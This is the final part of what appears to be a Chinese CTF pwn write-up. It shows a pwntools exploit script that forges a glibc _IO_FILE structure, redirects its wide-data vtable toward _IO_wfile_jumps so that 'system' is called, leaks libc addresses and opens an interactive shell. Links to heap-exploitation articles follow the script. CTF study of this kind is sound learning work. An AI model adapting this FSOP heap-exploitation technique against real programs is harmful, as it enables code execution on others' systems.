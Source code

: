 ```bash
fake_IO_struct += p64(1)                             #_flag2
fake_IO_struct = fake_IO_struct.ljust(0x88,b'\x00')
fake_IO_struct += p64(heap_base + 0x200)             #_lock = a writable address
fake_IO_struct = fake_IO_struct.ljust(0xa0,b'\x00')
fake_IO_struct += p64(fake_io_addr + 0x200)          #fake_wide_data
fake_IO_struct = fake_IO_struct.ljust(0xd8,b'\x00')
fake_IO_struct += p64(libc.sym['_IO_wfile_jumps'] - 0x20)        #fake_vatable
fake_IO_struct = fake_IO_struct.ljust(0x200,b'\x00')
fake_IO_struct += b'\x00'*0xe0 + p64(fake_io_addr + 0x2e0)
fake_IO_struct += b'\x00'*0x60 + p64(libc.sym['system'])

payload = b'a'*0x500 + fake_IO_struct

edit(4,payload)
edit(1,p32(0x2000)*10)
edit(8,b'\x00'*0x608 + p64(0x100))
sla(b': ',b'1')
sla(b': ',b'9')
leak("libc.address",libc.address)
leak("system",libc.sym['system'])

sla(b': ',b'1800')

p.interactive()
```

#### 参考文章

[PWN——House Of Einherjar CTF Wiki 例题详解 - 安全客 - 安全资讯平台 (anquanke.com)](https://www.anquanke.com/post/id/251596)

[PWN 堆利用 unlink 学习笔记 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/541226698)

[堆溢出 off by one & off by null - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/12861)
